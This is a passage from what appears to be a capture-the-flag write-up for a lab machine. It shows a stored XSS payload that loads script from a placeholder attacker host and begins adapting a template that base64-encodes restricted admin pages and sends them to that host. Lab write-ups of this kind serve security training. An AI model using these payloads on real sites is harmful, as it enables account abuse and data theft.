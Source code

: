 Checking our web server logs we see the
following

![admin-xss-confirmed](/images/htb-alert/admin-xss-confirmed.png)

The first two entries are from rendering the file and generating
the link, which is why the IP listed is different. The highlighted
entry confirms that the admin user will run any scripts we give them!

Instead of editing our `md` file directly every time,
create a file called `payload.js`
and place it in our `python` web server directory.
Our payoad file becomes

```md
<script src="http://ATTACKER_IP/payload.js"></script>
```

Now we can modify our payload without having to upload
the `md` file multiple times! We only need to resend
the link to trigger our new payload

### Local File Read
> What resources are only accessible to privileged users?
{: .prompt-tip }


Going back to our directory bruteforce, there were some
directories and files that we didn't have access to as
a normal user. These were `/messages` and `/messages.php`.

Since we can run JS as a privileged user, we
need to find a way to return the page content of these
restricted files. Luckily, we can use this
[template](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/steal-info-js){:target="_blank"}{:rel="noopener noreferrer"}
provided by hacktricks!

Essentially, this script will encode page content
into base64 and send it to a server we control.
We do need to make a few minor modifications to make it
work properly. Change the following variables at the top

```javascript
var ATTACKER_SERVER = "http://ATTACKER_IP"
var EXFIL_BY_FETCH_GET = true
```
